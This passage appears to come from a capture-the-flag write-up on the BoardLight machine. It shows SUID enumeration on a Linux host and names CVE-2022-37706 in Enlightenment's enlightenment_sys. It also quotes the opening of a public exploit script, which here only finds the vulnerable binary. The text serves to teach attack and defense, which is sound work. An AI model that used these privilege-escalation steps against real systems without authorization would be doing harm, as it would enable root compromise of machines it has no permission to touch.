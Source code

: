 ### Enumeration

#### No sudo power :(
```
larissa@boardlight:~$ sudo -l
[sudo] password for larissa:
Sorry, user larissa may not run sudo on localhost.
```

####  SUID 

We tried to look for SUIDs, Found four SetUIDs on `enlightenment` are really interesting.
It's Windows manager for X Windows System. 

```console
larissa@boardlight:~$  find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
```

![](https://ih1.redbubble.net/image.3725444730.8638/fposter,small,wall_texture,square_product,600x600.jpg)

### CVE-2022-37706

`enlightenment_sys` is vulnerable to [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706).
> enlightenment_sys in Enlightenment before 0.25.4 allows local users to gain privileges because it is setuid root, and the system library function mishandles pathnames that begin with a /dev/.. substring. 

This [Writeup](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) on goes in depth for this vulnerability, There is really nice shell script on that repo we can use to exploit it.

```bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

```